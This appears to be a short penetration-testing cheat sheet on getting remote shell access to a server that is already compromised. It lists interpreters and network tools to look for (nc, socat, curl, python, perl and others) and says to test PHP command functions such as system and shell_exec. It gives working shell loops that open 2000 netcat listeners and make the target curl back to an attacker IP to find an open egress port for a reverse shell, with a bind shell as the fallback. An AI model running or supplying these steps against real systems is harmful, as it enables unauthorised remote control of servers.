 <https://dolosgroup.io/blog/remote-access-cheat-sheet>

which is gold command
which which ls find python python3 perl bash sh dash xterm php jsp java asp socat\
nc ncat netcat nc.traditional nc.openbsd ruby wget curl fetch lua gawk awk tclsh 

### Methodology {#methodology}

    _ Keep it simple, test for very basic things.

    |________ Which languages are interpreted by the servers, try to upload some simple echo
    |        |____ Found php ? Check echo about system, passthru, shell_exec, exec to see if you can use them
    |________ Check commons binaries available on the system using which, locate, or by searching binaries 
             | at /bin /usr/bin /usr/local/bin /sbin /usr/sbin /usr/local/sbin
    |        |____ which which ls find python perl bash sh dash xterm php jsp java asp socat nc ncat 
                   netcat nc.traditional nc.openbsd ruby wget curl fetch lua gawk awk tclsh
    |
    |________ Try to get a reverse shell at port 443, then 80, if not working
    |        |
    |        |____ Open 2000 ports on your server using nc
    |        | for port in {1..2000};do nc -nlvp $port &;done
    |        |____ Ask the target server to connect to those ports
    |        |   for port in {1..2000};do curl -X GET http://IP:$port/user
    |        |         2>&1;done
    |        |____ Repeat until you iterated all ports
    |        |____ Reverse Shell on the port you've been hit
    |________ Still not working ? Go bind shell
             |_____ Test port 443, 80, then try the nc opening ports tricks by swapping the server/client role